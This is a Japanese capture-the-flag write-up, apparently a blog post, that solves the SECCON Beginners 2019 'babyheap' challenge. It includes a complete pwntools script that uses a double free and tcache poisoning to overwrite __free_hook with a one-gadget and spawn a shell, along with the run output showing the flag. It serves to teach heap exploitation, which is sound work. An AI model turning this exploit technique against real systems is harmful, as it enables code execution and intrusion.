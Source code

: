 # はじめに
2019年5月25日〜26日、Szarnyさんと一緒SECCONのCTF For Beginners (ctf4b)に参加し、最後に二人のチームが2707ポイントを集め、666チームが参加する中26位で終わりました。

CTFをやったときに解けませんでしたが、勉強になりましたので、今回、「babyheap」という問題の解法を紹介していきます。
# babyheap
「babyheap」という名前のELFバイナリと「libc-2.27.so」が手に入れます。
```
$ checksec babyheap
[*] '/ctf/SECCON2019-ctf4b/Pwnable/BabyHeap/babyheap'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
$
```
やんや〜PIEにFull RELROも有効。とりあえずプログラムを実行してみましょう。
```
$ LD_PRELOAD=./libc-2.27.so ./babyheap 
Welcome to babyheap challenge!
Present for you!!
>>>>> 0x7f8aff64ca00 <<<<<

MENU
1. Alloc
2. Delete
3. Wipe
4. Exit
> 
```
Heap系問題のようですね。`radare2`で解析すると、教えてくれてるプレゼントがlibcの`_IO_2_1_stdin_`だとわかります。助かりましたね！これで自分でリークするのが不要。
```
|           0x000009b5      488b05741620.  mov rax, qword [obj.stdin]
|           0x000009bc      4889c6         mov rsi, rax
|           0x000009bf      488d3df20100.  lea rdi, str.Welcome_to_babyheap_challenge___Present_for_you___________p
```
要するに、今まで知ってることは以下の３つ：
- これがHeap系の問題
- 何もしなくてlibcのアドレスを既に把握しています
- libcのバージョンが2.27だから、tcacheが使えます

さてexploitスクリプトのベースを作りましょう。とりあえずラッパー関数を作成していきます。
```
#!/usr/bin/env python2
# -*- coding: utf-8 -*-
from pwn import *

libc = ELF("./libc-2.27.so")
p = process(["./babyheap"], env={"LD_PRELOAD" : libc.path})

# 1 = malloc(0x30)
# 2 = ヌル化せずにfree
# 3 = ヌル化(だがfreeはしない)
# 0 = プログラム終了
def alloc(data):
        p.sendlineafter("> ", "3") # allocする前にポインタのヌル化が必要。
        p.sendlineafter("> ", "1")
        p.sendlineafter(":", str(data))

def free():
        p.sendlineafter("> ", "2")

# プレゼントを読み込み、libcの先頭アドレスを計算する。
p.readuntil(">>>>> ")
leak_stdin = int(p.read(14), 16)
libc_base = leak_stdin - libc.symbols["_IO_2_1_stdin_"]
print("[*] libcのアドレス：%s" % hex(libc_base))
```
このプログラムをエクスプロイトして、one-gadgetでシェルを奪うことを目的としましょう。

「[tcache poisoning](https://github.com/shellphish/how2heap/blob/master/glibc_2.26/tcache_poisoning.c)」という攻撃を行えば、任意書き込みが出来、`__free_hook`をone-gadgetのアドレスに書き換えれば、また`free()`するとジャンプしてくれるはずです。
```
addr___free_hook = libc_base + libc.symbols["__free_hook"]
addr_one_gadget = libc_base + 0x4f322

# 二度解放（Double Free）攻撃を行う
alloc("")                       # α領域
free()                          # tcache: [α領域, 0x00]
free()                          # tcache: [α領域, α領域, 0x00]

alloc(p64(addr___free_hook))    # tcache: [α領域, __free_hook, ???]
alloc("")                       # tcache: [__free_hook, ???]

# 次は__free_hookの位置が返ってきます
alloc(p64(addr_one_gadget))     # tcache: [???]

free()
p.interactive()
p.close()
```
```
$ ./exploit.py 
[*] '/ctf/SECCON2019-ctf4b/Pwnable/BabyHeap/libc-2.27.so'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Starting local process './babyheap': pid 9530
[*] libcのアドレス：0x7fcad323d000
[*] Switching to interactive mode
$ cat flag.txt
ctf4b{h07b3d_0f_51mpl3_h34p_3xpl017}
$  
```

以上 babyheap の解法でした。最後まで読んで頂き、ありがとうございました！

